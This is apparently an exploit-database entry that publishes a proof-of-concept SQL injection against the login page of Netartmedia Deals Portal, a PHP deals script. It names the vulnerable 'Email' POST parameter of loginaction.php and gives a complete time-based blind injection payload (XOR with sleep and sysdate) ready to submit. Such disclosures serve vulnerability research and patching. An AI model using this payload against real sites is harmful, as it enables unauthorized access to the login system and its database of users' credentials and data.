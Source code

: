 # Exploit Title: Netartmedia Deals Portal - 'Email' SQL Injection
# Date: 20.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.netartmedia.net/dealsportal/
# Demo Site: https://www.phpscriptdemos.com/deals/i
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A
----- PoC: SQLi -----
# Request: http://localhost/[PATH]/loginaction.php
# Vulnerable Parameter: Email (POST)
# Attack Pattern:
Email=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z&Password=g00dPa%24%24w0rD&lang=en&mod=login
